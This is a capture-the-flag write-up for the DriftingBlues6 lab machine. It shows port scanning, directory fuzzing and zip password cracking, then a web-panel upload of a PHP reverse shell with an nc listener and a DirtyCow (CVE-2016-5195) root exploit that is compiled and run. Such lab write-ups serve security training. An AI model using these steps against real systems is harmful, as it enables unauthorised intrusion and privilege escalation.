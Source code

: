 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/proving-grounds-play/drifting-blues6/","tags":["CTF","write-up"]}
---
```



![Pasted image 20241213092656.png|300](/img/user/attachments/Pasted%20image%2020241213092656.png)

---

> [!INFO] Info about DriftingBlues6
>  Born under a bad sign.

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance

## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 61
```

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 80 -oN nmap_enum
```
## OS
Linux
## Port 80 - Apache
tcp open  http    **Apache** httpd **2.2.22** ((Debian))
http-server-header: Apache/2.2.22 (Debian)
http-title: driftingblues
| http-robots.txt: 1 disallowed entry
/textpattern/textpattern

Check *robots.txt*
![Pasted image 20241212204902.png](/img/user/attachments/Pasted%20image%2020241212204902.png)
The page:
http://192.168.210.219/textpattern/textpattern/index.php
![Pasted image 20241212221507.png](/img/user/attachments/Pasted%20image%2020241212221507.png)
### Fuzz
```shell
ffuf -c -t 100 -u http://192.168.210.219/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -fc 404 -e .zip
```
I found a zip file named *spammer.zip*
192.168.210.219/spammer.zip
Download it, and I'll exploit it on the exploitation section below.

I ran the fuzzing under the subdirectory *textpattern*
```shell
ffuf -c -t 100 -u http://192.168.210.219/textpattern/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -fc 404 -e .zip
```
Some interesting sudirectories:
**files**, images, rpc, textpattern, themes
*Files* is empty but probably the files will be uploaded there

---
# Exploitation
## Brute force to the zipfile
Get a hash from the *zipfile*
```shell
zip2john spammer.zip > zip_hash.txt
```
![Pasted image 20241212211735.png](/img/user/attachments/Pasted%20image%2020241212211735.png)

Crack the hash
```shell
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt zip_hash.txt
```
![Pasted image 20241212211945.png|600](/img/user/attachments/Pasted%20image%2020241212211945.png)

Uncompress the file
```shell
unzip spammer.zip
```
![Pasted image 20241212212132.png](/img/user/attachments/Pasted%20image%2020241212212132.png)

Read the file *creds.txt*
![Pasted image 20241212221013.png](/img/user/attachments/Pasted%20image%2020241212221013.png)
There are credentials to login on the website.

Login to the login page:
![Pasted image 20241212221555.png|500](/img/user/attachments/Pasted%20image%2020241212221555.png)
## RCE
On the panel click on *Content* the *Files*
![Pasted image 20241212222316.png|500](/img/user/attachments/Pasted%20image%2020241212222316.png)
Select the file: I use the kali PHP reverse shell */usr/share/webshells/php/php-reverse-shell.php* (Change the IP and Port)
![Pasted image 20241212222354.png|600](/img/user/attachments/Pasted%20image%2020241212222354.png)
The file was uploaded
![Pasted image 20241212222615.png|500](/img/user/attachments/Pasted%20image%2020241212222615.png)

Check the *files* subdirectory from the enumeration phase and the file is there.
![Pasted image 20241212223008.png|500](/img/user/attachments/Pasted%20image%2020241212223008.png)

Set the listener
```shell
rlwrap nc -lnvp 4747
```

Open the file *php-reverse-shell.php*

We got the shell as the user `www-data`
![Pasted image 20241212223204.png|500](/img/user/attachments/Pasted%20image%2020241212223204.png)

---
# Privilege escalation
## Dirty Cow
The linux kernel version is old
![Pasted image 20241212230717.png](/img/user/attachments/Pasted%20image%2020241212230717.png)
It's vulnerable to *DirtyCow* [[CVE-2016-5195\|CVE-2016-5195]]

Create the file [[c0w.c\|c0w.c]] and transfer to the victim machine
Compile [[c0w.c\|c0w.c]]
```shell
gcc -pthread c0w.c -o c0w 
```

And execute it
```shell
./c0w
```

![Pasted image 20241212230651.png](/img/user/attachments/Pasted%20image%2020241212230651.png)

> [!check] Root flag
> ![Pasted image 20241212231207.png](/img/user/attachments/Pasted%20image%2020241212231207.png)

---